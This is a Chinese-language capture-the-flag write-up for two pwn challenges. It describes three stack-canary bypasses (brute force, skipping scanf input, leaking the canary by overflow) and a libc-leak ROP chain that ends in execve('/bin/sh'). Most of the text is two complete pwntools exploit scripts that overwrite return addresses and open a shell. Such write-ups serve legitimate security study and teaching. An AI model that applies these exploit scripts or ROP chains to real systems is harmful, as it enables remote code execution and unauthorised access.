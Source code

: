 ## Catch_the_canary!

本题实际上是在考验三种绕过 canary 的方法。

第一种：模拟 32 位环境下 canary 有效大小仅三字节，可以爆破。（实际场景是新开线程，新线程与主线程 canary 一致，新线程崩溃不导致主线程崩溃。）

第二种：输入时跳过 canary。例如 `scanf` 在读取数字时，输入 `+` 或 `-` 可跳过输入。

第三种：通过溢出读取填满 canary 的首空字节再输出从而泄漏 canary。

Exp:

```python
from pwn import *

io = ...
# unreachable = 0x4012a8
unreachable = 0x4012ad # 跳过 `push rbp`

io.sendline(str(0x00abcd00).encode())
for i in range(0x00ffdcba, 0x01000000):
    io.sendlineafter(b'n.\n', str(i).encode())
    rec = io.recvuntil(b'] ')
    if b'Error' not in rec:
        break

io.sendlineafter(b't.\n', b'-')
io.sendline(b'1')
io.sendline(str(0xbacd003).encode())

io.send(cyclic(25))
io.recvuntil(b'g')
canary = b'\x00' + io.recvn(7)
io.send(cyclic(24) + canary + cyclic(8) + p64(unreachable))

io.interactive()
```

## System_not_found!

第一次 `read` 缓冲区溢出能够修改栈上传给 `nbytes` 参数的变量的值，之后获得一次“无限”长栈溢出机会。但是程序中不存在 `pop rdi` gadget。观察 `main` 运行到即将返回时 `rdi` 的值，发现其值恰好为 libc 里的函数 `funlockfile` 地址的地址，于是此时若直接返回至 `puts` 即可泄漏 libc 基址。第一次 ROP leak libc 并回到 main，第二次 ROP getshell。

Exp:

```python
from pwn import *

context(os='linux', arch='amd64')
io = ...
e = ELF('./dialogue')
libc = ELF('./libc.so.6')

io.sendafter(b'> ', cyclic(0x10) + p64(1000)[:6]) # `nbytes` 过大可能打不通远程
io.sendafter(b'> ', cyclic(32 + 8 + 8) + p64(e.plt['puts']) + p64(e.sym['main']))
io.recvuntil(b'.\n')
funlockfile_addr = u64(io.recvn(6).ljust(8, b'\x00'))
libc_base_addr = funlockfile_addr - libc.symbols['funlockfile']
bin_sh = libc_base_addr + libc.search(b'/bin/sh').__next__()
pop_rdi = libc_base_addr + libc.search(asm('pop rdi; ret;')).__next__()
pop_rsi = libc_base_addr + libc.search(asm('pop rsi; ret;')).__next__()
execve = libc_base_addr + libc.symbols['execve']
io.sendafter(b'> ', cyclic(0x10) + p64(1000)[:6])
io.sendafter(b'> ', cyclic(32 + 8 + 8) + p64(pop_rdi) + p64(bin_sh) + p64(pop_rsi) + p64(0) + p64(execve))
```